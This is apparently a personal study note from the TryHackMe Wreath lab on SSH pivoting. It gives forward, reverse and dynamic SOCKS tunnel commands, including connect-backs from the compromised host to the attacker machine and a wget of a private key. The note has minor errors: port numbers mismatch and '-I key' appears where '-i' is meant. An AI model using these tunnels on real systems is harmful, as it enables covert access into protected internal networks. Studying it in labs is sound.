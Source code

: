 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

### TRY THIS FIRST!
KALI: 
```bash - kali
ssh-keygen -t rsa -N ‘’ -f ~/.ssh/key
```

TARGET:
```bash - target
ssh -f -N -R 1080 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -I key kali@$KALI
```

With the dynamic reverse tunnel established, edit the /etc/proxychains4.conf to use the port 1080.

---

https://tryhackme.com/room/wreath

| Kali | Vic1 | Vic2 | 
| --- | --- | --- |
| 172.16.0.20 | 172.16.0.5 | 172.16.0.10

**Forward Connections**

Creating a forward (or "local") SSH tunnel can be done from our attacking box when we have SSH access to the target. As such, this technique is much more commonly used against Unix hosts. Linux servers, in particular, commonly have SSH active and open. That said, Microsoft (relatively) recently brought out their own implementation of the OpenSSH server, native to Windows, so this technique may begin to get more popular in this regard if the feature were to gain more traction.

There are two ways to create a forward SSH tunnel using the SSH client -- port forwarding, and creating a proxy.

-   Port forwarding is accomplished with the `-L` switch, which creates a link to a **L**ocal port. For example, if we had SSH access to 172.16.0.5 and there's a webserver running on 172.16.0.10, we could use this command to create a link to the server on 172.16.0.10:

==Run on kali==
```bash - kali
ssh -L 8000:172.16.0.10:80 user@172.16.0.5 -fN
```

-   We could then access the website on 172.16.0.10 (through 172.16.0.5) by navigating to port 8000 _on our own_ _attacking machine._ For example, by entering `localhost:8000` into a web browser. Using this technique we have effectively created a tunnel between port 80 on the target server, and port 8000 on our own box. Note that it's good practice to use a high port, out of the way, for the local connection. This means that the low ports are still open for their correct use (e.g. if we wanted to start our own webserver to serve an exploit to a target), and also means that we do not need to use `sudo` to create the connection. The `-fN` combined switch does two things: `-f` backgrounds the shell immediately so that we have our own terminal back. `-N` tells SSH that it doesn't need to execute any commands -- only set up the connection.  
      
-   Proxies are made using the `-D` switch, for example: `-D 1080`. This will open up port 1337 on your attacking box as a proxy to send data through into the protected network. This is useful when combined with a tool such as proxychains. An example of this command would be:

```bash - kali
ssh -D 127.0.0.1:1080 user@172.16.0.5 -fN
```

This again uses the `-fN` switches to background the shell. The choice of port 1337 is completely arbitrary -- all that matters is that the port is available and correctly set up in your proxychains (or equivalent) configuration file. Having this proxy set up would allow us to route all of our traffic through into the target network.

**Reverse Connections**  

Reverse connections are very possible with the SSH client (and indeed may be preferable if you have a shell on the compromised server, but not SSH access). They are, however, riskier as you inherently must access your attacking machine _from_ the target -- be it by using credentials, or preferably a key based system. Before we can make a reverse connection safely, there are a few steps we need to take:

```bash - kali
ssh-keygen
```

Give it a name of "./reverse"

```bash - kali
./reverse
```

![[Pasted image 20220115184520.png]]

```bash - kali
ls -l reverse*
```

![[Pasted image 20220116104411.png]]

```bash - kali
touch ~/.ssh/authorized_keys
```

```bash - kali
mousepad ~/.ssh/authorized_keys
```

```bash - kali
command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty
```

Paste in the contents of reverse.pub:

The final entry in the `authorized_keys` file should look something like this:

![[Pasted image 20220115184759.png]]

Check that ssh is running:

```bash - kali
sudo systemctl status ssh
```

if not, start it:

```bash - kali
sudo systemctl start ssh
```

Transfer private key to target box (Vic1).

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

```bash - target
wget http://$KALI/reverse
```


| Kali | Vic1 | Vic2 | 
| --- | --- | --- |
| 172.16.0.20 | 172.16.0.5 | 172.16.0.10

```bash - Vic1
ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN
```

```bash - Vic1
ssh -R LOCAL_PORT:VICTIM2:VICTIM2_PORT kali@$KALI -i KEYFILE -fN
```

==Run the following on the Vic1 box (172.16.0.5)==

```bash - Vic1
ssh -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -fN
```

This would open up a port forward to our Kali box, allowing us to access the 172.16.0.10 webserver, in exactly the same way as with the forward connection we made before!

In newer versions of the SSH client, it is also possible to create a reverse proxy (the equivalent of the `-D` switch used in local connections). This may not work in older clients, but this command can be used to create a reverse proxy in clients which do support it:  
`ssh -R 1337 USERNAME@ATTACKING_IP -i KEYFILE -fN`  

This, again, will open up a proxy allowing us to redirect all of our traffic through localhost port 1337, into the target network.

_**Note:** Modern Windows comes with an inbuilt SSH client available by default. This allows us to make use of this technique in Windows systems, even if there is not an SSH server running on the Windows system we're connecting back from. In many ways this makes the next task covering plink.exe redundant; however, it is still very relevant for older systems._

```bash - kali
ssh -N -R $TARGET:5555:127.0.0.1:5555 -p 2222 student@$TARGET
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
